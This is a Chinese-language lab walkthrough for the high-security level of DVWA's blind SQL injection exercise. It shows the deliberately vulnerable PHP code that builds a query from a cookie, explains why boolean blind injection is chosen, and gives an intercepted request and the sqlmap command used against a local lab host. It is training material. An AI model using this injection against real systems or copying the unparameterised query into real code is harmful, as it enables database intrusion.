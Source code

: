

## 0x03 High

#### 源码分析
```php
<?php
if( isset( $_COOKIE[ 'id' ] ) ) {
    // Get input
    $id = $_COOKIE[ 'id' ];

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else {
        // Might sleep a random amount
        if( rand( 0, 5 ) == 3 ) {
            sleep( rand( 2, 4 ) );
        }

        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }
    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}
?>
```
这里的id是从cookie中传进来的，需要从cookie注入。同时使用了LIMIT 1限制查询只有一行，可以直接在注入语句后加#注释。

if( rand( 0, 5 ) == 3 ) { sleep( rand( 2, 4 ) ); }
这里还使用了随机延时，http请求有1/5的概率会延时2~4秒才收到响应，这样就不利于基于时间的盲注的准确性，所以只能使用布尔盲注了。

#### 解题思路
前端的话是要先点击弹出一个新的页面，在新的页面输入id值，在这个页面发出的包拦截下来，拦截后会发现id值在cookie中，我们在id=1后加上\*，并保存成request.txt，然后使用sqlmap注入。
```http
GET /dvwa/vulnerabilities/sqli_blind/ HTTP/1.1
Host: 192.168.1.104:9000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.104:9000/dvwa/vulnerabilities/sqli_blind/
Connection: close
Cookie: id=1*; security=high; PHPSESSID=2stakqkr6p9dcdedrd6goenhiq
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```
sqlmap注入语句如下：
```
sqlmap -r request.txt --batch --dbms MySQL --current-db --level 3 --technique B
```